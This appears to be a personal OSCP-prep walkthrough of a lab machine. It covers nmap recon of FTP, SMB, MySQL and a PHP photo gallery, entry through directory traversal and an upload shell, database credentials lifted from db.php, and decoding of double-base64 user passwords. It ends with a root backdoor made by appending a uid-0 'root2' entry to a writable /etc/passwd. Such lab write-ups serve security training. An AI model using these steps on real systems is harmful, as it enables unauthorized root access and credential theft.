

**Start 11:07 05-01-2025**

---
```
Scope:
192.168.195.58
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV -oN nmap 192.168.195.58 -T5 -vvvv --min-rate=5000 -sT -p-

PORT      STATE  SERVICE     REASON       VERSION
21/tcp    open   ftp         syn-ack      vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.186
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp    open   ssh         syn-ack      OpenSSH 7.4 (protocol 2.0)
80/tcp    open   http        syn-ack      Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Simple PHP Photo Gallery
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
111/tcp   open   rpcbind     syn-ack      2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
139/tcp   open   netbios-ssn syn-ack      Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp   open   netbios-ssn syn-ack      Samba smbd 4.10.4 (workgroup: SAMBA)
3306/tcp  open   mysql       syn-ack      MySQL (unauthorized)
6958/tcp  closed unknown     conn-refused
13158/tcp closed unknown     conn-refused
21774/tcp closed unknown     conn-refused
27060/tcp closed unknown     conn-refused
32516/tcp closed unknown     conn-refused
33060/tcp open   mysqlx?     syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
36729/tcp closed unknown     conn-refused
44441/tcp closed unknown     conn-refused
46152/tcp closed unknown     conn-refused
48875/tcp closed unknown     conn-refused
51006/tcp closed unknown     conn-refused
60056/tcp closed unknown     conn-refused
61940/tcp closed unknown     conn-refused
62661/tcp closed unknown     conn-refused

Service Info: Host: SNOOKUMS; OS: Unix
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.10.4)
|   Computer name: snookums
|   NetBIOS computer name: SNOOKUMS\x00
|   Domain name: \x00
|   FQDN: snookums
```

Since we had 2 SMB ports open I reran with `--script smb-vuln*` for good measure:

```bash
PORT    STATE SERVICE     REASON  VERSION
139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: SAMBA)
Service Info: Host: SNOOKUMS

Host script results:
| smb-vuln-regsvc-dos: 
|   VULNERABLE:
|   Service regsvc in Microsoft Windows systems vulnerable to denial of service
|     State: VULNERABLE
|       The service regsvc in Microsoft Windows 2000 systems is vulnerable to denial of service caused by a null deference
|       pointer. This script will crash the service if it is vulnerable. This vulnerability was discovered by Ron Bowes
|       while working on smb-enum-sessions.
|_          
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: false
```

Starting off we notice that we are allowed to log into `ftp - 21` as `anonymous`.


Unfortunately enough the service kept hanging and gave no valuable output.

>[!note]
>This was also mentioned in the nmap scan `Can't get directory listing: TIMEOUT`

Then we have a webpage called **Simple Photo Gallery** running on **Apache, CentOS**.

Furthermore we have 2 **MySQL** ports and a bunch of higher number ports that seem to be *closed*.

We also have `port 111 - rpcbind` which I haven't heard of before:


For this port I've found [this blog](https://hackviser.com/tactics/pentesting/services/rpcbind) on how to pentest it. For now I've confirmed that it is open:


# Initial Foothold 

## 80/TCP - HTTP

Learning from past boxes I understood that I had to **KISS** and go with the most logical simple vector first.


I looked up this version online and lo and behold:


>[!note]
>I also found a PoC for `0.8` on exploit-db but that one did not work.


Let's test it out.



Perfect, directory traversal works. Now let's upload a shell.


But the reverse shell did not fire.


>[!important]
>I changed the mtu settings to `mtu 1250` and the port to `445` and the shell fired this time.
>


## Enumeration

Good, we're in.

I quickly found out that we do not have sufficient permissions to enter the `/home/michael` directory.


I could not run `sudo -l` either because of the lack of a password.


>[!note]
>I upgraded my shell using the following commands:

```bash
# Spawn python shell
python -c 'import pty; pty.spawn("/bin/bash")'

# Export TERM
export TERM=xterm
```

I checked `crontab` but couldn't find anything.
There was also nothing inside the binary files that stood out.

I then started enumerating the web root:


`db.php` sounds interesting!

```php
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'MalapropDoffUtilize1337');
define('DBNAME', 'SimplePHPGal');
?>
```

Awesome, finally some creds.


Awesome, we got db access.

>[!note]
>We keep in mind that there are 2 ports available, where the non-default is on 33060 which we could check out if this one doesn't have what we need.


Awesome, we got 3 users and their encrypted hashes. Let's decrypt them

```
VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0=
U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==
VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==
```


Well that's unfortunate, let's use john or hashcat then.


Got it, they're *double* base64 encrypted.


```creds
michael HockSydneyCertify123
josh MobilizeHissSeedtime747
serena OverallCrestLean000
```

>[!note]
>Quick FYI, port `33060` had the exact same database info, nothing different.


We have successfully logged in as *Michael*.

### local.txt


Unfortunately we weren't able to check `sudo -l` nor log in as `root` with the other creds found:


# Privilege Escalation

Since we had Michael's password there was no longer a need for the reverse shell, instead I went and logged in via SSH in order to get a stable shell.

From here I transferred `linpeas.sh` to speed up the enumeration process.

I fired it up and started looking for interesting bits.


## More Enumeration


But above all others:


This means we can go ahead and a new user `root2` with the same privileges as `root`.

To put this in practice it will look somewhat like this:

```bash
# Add new user root2 - w00t
echo "root2:nYEMRr1PQFYBg:0:0:root:/root:/bin/bash" >> /etc/passwd

# Change to new user
su root2
```


It worked!!!

### proof.txt


---

**Finished 12:49 05-01-2025**

[^Links]: [[OSCP Prep]]

#enumeration #priv-esc 
